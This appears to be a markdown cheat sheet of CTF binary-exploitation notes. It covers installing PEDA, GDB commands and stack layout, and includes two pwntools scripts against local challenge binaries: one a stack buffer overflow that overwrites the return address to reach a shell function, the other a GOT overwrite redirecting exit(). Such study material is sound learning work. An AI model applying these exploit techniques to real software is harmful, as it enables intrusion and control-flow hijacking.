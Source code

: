 # peda
```sh
git clone https://github.com/longld/peda.git ~/peda
echo "source ~/peda/peda.py" >> ~/.gdbinit
echo "DONE! debug your program with gdb and enjoy"
```
# pwntools
```python
from pwn import *

context.binary = "./pwn1"

p = process()
p.sendline(b"A" * 128 + b"a" * 12 + p32(context.binary.functions["shell"].address))
p.sendline(b"cat flag.txt")
log.success(p.recvline_regex(rb".*{.*}.*").decode("ascii"))
```
# GDB commands
- `r` run
- `c` continue
- `b <function_name>` breakpoint or `b <linenumber>`
- `file <file>` load file
- `x/Nuf expr`: examine memory at address expr
  - N how many units to display
  - u unit size; one of b(individual bytes), h (halfwords = 2B), w (words = 4B), g (giant words = 8B)
  - f printing format (any print format) or s (s null-terminated string) i (machine instructions)
Ex: `x/168x $sp' (4 byte chunks by default) $sp = stack pointer, $rip = instruction pointer

# Stack representation
```
+---------------+ <- SP
|     locals    |
+---------------+ <- BP
|       BP      |
+---------------+
|    ret add    |
+---------------+
```

# GOT
```python
from pwn import *  # type: ignore

context.binary = "./NeedsToBeHappy"
e: ELF = context.binary  # type: ignore     #just to make the typechecker happy
p = process()
p.sendline(b"y")
p.sendline(str(e.functions["give_the_man_a_cat"].address).encode("ascii"))
p.sendline(str(e.got["exit"]).encode("ascii"))
```
The binary provides a trivial write-what-where so it would be a good idea to overwrite some entry in the GOT in order to get control of the program control flow.
A good candidate for the overwrite would be (as usual) the `exit()` function.
The function that (sort of) gives us the flag is `give_the_man_a_cat()` but it's never called anywhere.
By overwriting the GOT entry for `exit()` we can call the required function and get the flag.
